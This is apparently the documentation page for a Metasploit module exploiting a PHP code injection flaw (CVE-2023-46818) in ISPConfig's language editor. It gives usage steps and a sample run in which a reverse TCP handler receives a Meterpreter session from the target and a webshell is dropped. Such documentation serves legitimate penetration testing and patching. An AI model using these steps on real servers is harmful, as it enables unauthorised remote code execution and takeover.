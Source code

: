 ## Vulnerable Application

ISPConfig before 3.2.11p1 is vulnerable to PHP code injection via the language file editor (language_edit.php) if the
`admin_allow_langedit` option is enabled.
An authenticated administrator can inject arbitrary PHP code, leading to remote code execution on the server.

- Vendor Advisory: https://www.ispconfig.org/
- CVE: [CVE-2023-46818](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)
- PoC/Details: [https://github.com/SyFi/CVE-2023-46818](https://github.com/SyFi/CVE-2023-46818)
- Exploit writeup: [https://karmainsecurity.com/KIS-2023-13](https://karmainsecurity.com/KIS-2023-13)

### Setup Example

1. Download and install ISPConfig (vulnerable version, e.g., 3.2.11 or earlier)
2. Enable `admin_allow_langedit` in the ISPConfig configuration.
3. Create an admin user for testing.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/http/ispconfig_lang_edit_php_code_injection`
3. Set the `RHOSTS`, `USERNAME`, and `PASSWORD` options
4. Set `TARGETURI` if ISPConfig is not at the web root
5. Run the module
6. You should get a Meterpreter or command shell session as the web server user.

## Options

### USERNAME
The ISPConfig administrator username to authenticate with.

### PASSWORD
The ISPConfig administrator password to authenticate with.


## Scenarios

### ISPConfig 3.2.11 (or earlier), Ubuntu 20.04

```
msf exploit(linux/http/ispconfig_lang_edit_php_code_injection) > run verbose=true
[*] Started reverse TCP handler on 192.168.168.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if the target is ISPConfig...
[*] Attempting login with username 'admin' and password 'RGT2WvpoALJXh8t'
[+] Login successful!
[+] ISPConfig version detected: ISPConfig Version: 3.2.10
[+] The target appears to be vulnerable. Version: ISPConfig Version: 3.2.10
[*] Attempting login with username 'admin' and password 'RGT2WvpoALJXh8t'
[+] Login successful!
[*] Checking if admin_allow_langedit is enabled...
[+] Language editor is accessible - admin_allow_langedit appears to be enabled
[*] Injecting PHP payload...
[+] Extracted CSRF tokens: ID=language_ed..., KEY=86845285663...
[*] Sending stage (40004 bytes) to 192.168.168.186
[*] Meterpreter session 2 opened (192.168.168.128:4444 -> 192.168.168.186:58822) at 2025-07-07 11:51:12 +0200


meterpreter >
meterpreter > sysinfo
Computer    : server1
OS          : Linux server1 6.8.0-60-generic #63~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Tue Apr 22 19:00:15 UTC 2 x86_64
Meterpreter : php/linux
```

## Notes
- The module requires valid ISPConfig admin credentials and the `admin_allow_langedit` option enabled.
- The shell is removed after exploitation if `DELETE_SHELL` is true.
- The exploit drops a PHP webshell and triggers the payload for Meterpreter or command shell access.
